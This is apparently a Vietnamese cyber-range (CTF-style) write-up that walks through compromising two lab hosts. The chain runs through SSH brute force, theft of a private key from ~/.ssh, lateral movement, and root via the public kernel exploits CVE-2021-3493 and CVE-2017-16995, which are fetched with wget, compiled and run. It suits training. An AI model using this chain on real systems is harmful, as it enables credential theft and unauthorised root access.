+++
title = 'Cyberrange-Whats Up Dave'
date = 2026-03-13T11:37:13+07:00
draft = false
categories = ["redteam"]
series = ["Cyber Range"]
+++



## Thông Tin Chung

**Mục tiêu:** Tìm flag trên 2 target

| Mục tiêu | IP Address | CVE | Flag |
|---|---|---|---|
| david server | 192.168.125.10 | CVE-2021-3493 | `flag{gotcha_david!}` |
| secret server | 192.168.125.15 | CVE-2017-16995 | `flag{s3cr3t_s3rv3r_pwn3d}` |

---

## Target 1: 192.168.125.10

### 1. Reconnaissance

#### 1.1. Scan port máy 192.168.125.10

Sử dụng nmap để quét tất cả các port và xác định dịch vụ đang chạy:

```bash
nmap -p- -sV 192.168.125.10
```



Kết quả: Chỉ có port 22/SSH mở:

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4
```

#### 1.2. Scan toàn bộ subnet /24

Scan toàn bộ mạng nội bộ để phát hiện các máy khác:

```bash
nmap -sV 192.168.125.0/24
```



Phát hiện các máy trong mạng:

- `192.168.125.1` – Gateway
- `192.168.125.3` – DNS Server
- `192.168.125.10` – Target
- `192.168.125.15` – Secret Server
- `192.168.125.20` – Kali (attacker)
- `192.168.125.100` – Tomcat server

#### 1.3. Scan máy 192.168.125.15

```bash
nmap -sV 192.168.125.15
```



Kết quả: Máy `.15` cũng chạy SSH (`OpenSSH 7.2p2 Ubuntu 4ubuntu2.8`).

---

### 2. Khai Thác Máy 192.168.125.15

#### 2.1. Brute force SSH trên máy .15

Sử dụng nmap với script `ssh-brute` để tìm credentials:

```bash
nmap -p22 --script ssh-brute --script-args userdb=users.txt 192.168.125.15
```



Kết quả tìm được credentials hợp lệ:

```
ubuntu:ubuntu - Valid credentials
```

#### 2.2. SSH vào máy .15

```bash
ssh ubuntu@192.168.125.15
# Password: ubuntu
```



#### 2.3. Tìm private key RSA trên máy .15

Kiểm tra thư mục `.ssh` của user ubuntu:

```bash
ls -la /home/ubuntu/.ssh/
cat /home/ubuntu/.ssh/id_rsa
```



Phát hiện private key RSA có thể dùng để đăng nhập sang máy khác.



Phát hiện có kết nối giữa `.15` và `.10`. Đồng thời phát hiện trong `.bash_history` của máy `.15` có lệnh SSH tới `.10` với user `david`.



---

### 3. SSH Vào Máy Mục Tiêu 192.168.125.10

#### 3.1. Copy private key và SSH vào .10

Copy private key từ máy `.15` về Kali, sau đó sử dụng để đăng nhập vào máy `.10`:

```bash
# Copy key về Kali
scp ubuntu@192.168.125.15:/home/ubuntu/.ssh/id_rsa .
chmod 600 id_rsa

# SSH vào máy .10 với user david
ssh -i id_rsa david@192.168.125.10
```



#### 3.2. Kiểm tra thông tin user

```bash
id
# uid=1001(david) gid=1001(david) groups=1001(david),27(sudo)
```

User `david` thuộc group `sudo` nhưng chưa có password để sử dụng sudo.

---

### 4. Leo Thang Đặc Quyền lên Root (CVE-2021-3493)

#### 4.1. Kiểm tra kernel version

```bash
uname -r
# 4.4.0-141-generic
```



#### 4.2. Sử dụng linux-exploit-suggester

Chạy công cụ để tìm kernel exploits phù hợp:

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x les.sh
./les.sh
```



Kết quả cho thấy **CVE-2021-3493** (OverlayFS privilege escalation) rất khả quan với kernel này.

#### 4.3. Khai thác CVE-2021-3493 (OverlayFS)

Download exploit, biên dịch và thực thi:

```bash
cd /tmp
wget https://raw.githubusercontent.com/briskets/CVE-2021-3493/main/exploit.c -O exploit.c
gcc exploit.c -o exploit
./exploit
```



Kết quả thành công – đã có root shell:

```
bash-4.3# id
uid=0(root) gid=0(root) groups=0(root),27(sudo),1001(david)
```

### 5. Lấy Flag

```bash
cd /root
ls -la
cat flag.txt
```



> **FLAG: `flag{gotcha_david!}`**

---

## Target 2: 192.168.125.15 (SECRET SERVER)

### 1. Quay Lại Máy .15

```bash
ssh ubuntu@192.168.125.15
# Password: ubuntu
```

### 2. Phát Hiện Lỗ Hổng Từ bash_history

#### 2.1. Kiểm tra bash history của user ubuntu

```bash
cat ~/.bash_history
```



Phát hiện các dòng lịch sử quan trọng cho thấy người dùng trước đó đã thử exploit **CVE-2017-16995**.

---

### 3. Leo Thang Đặc Quyền lên Root (CVE-2017-16995)

#### 3.1. Kiểm tra kernel version

```bash
uname -r
# 4.4.0-141-generic
```



Kernel version này nằm trong danh sách bị ảnh hưởng bởi CVE-2017-16995.

#### 3.2. Khai thác CVE-2017-16995

Download exploit, biên dịch với pthread support và thực thi:

```bash
cd /tmp
wget https://raw.githubusercontent.com/gugronnier/CVE-2017-16995/master/exploit-poc-pentest.c -O exploit.c
gcc exploit.c -o exploit -pthread
./exploit
```



Kết quả thành công – đã có root shell:

```
task_struct = ffff88001df46a40
uidptr = ffff88001ed3d0c4
spawning root shell
root@secretserver:~#
```

### 4. Lấy Flag

```bash
cd /root
ls -la
cat flag.txt
```



> **FLAG: `flag{s3cr3t_s3rv3r_pwn3d}`**

---

## Kết Luận

Tóm tắt toàn bộ quá trình khai thác theo thứ tự:

1. Scan subnet `192.168.125.0/24` – phát hiện các máy, trong đó có máy `.15` (secret server)
2. Brute force SSH thành công trên máy `.15` với credentials `ubuntu:ubuntu`
3. Lấy private key RSA từ `/home/ubuntu/.ssh/id_rsa` trên máy `.15`
4. Dùng private key SSH vào máy `.10` với user `david`
5. Leo root trên máy `.10` bằng **CVE-2021-3493** (OverlayFS privilege escalation)
6. Đọc flag1: `flag{gotcha_david!}`
7. Kiểm tra `~/.bash_history` trên `.15` – phát hiện exploit CVE-2017-16995
8. Leo root trên `.15` bằng **CVE-2017-16995** (eBPF verifier bug)
9. Đọc flag2: `flag{s3cr3t_s3rv3r_pwn3d}`

| Máy | IP | Phương pháp | Flag |
|---|---|---|---|
|  1 | 192.168.125.10 | CVE-2021-3493 (OverlayFS) | `flag{gotcha_david!}` |
|  2 | 192.168.125.15 | CVE-2017-16995 (eBPF) | `flag{s3cr3t_s3rv3r_pwn3d}` |
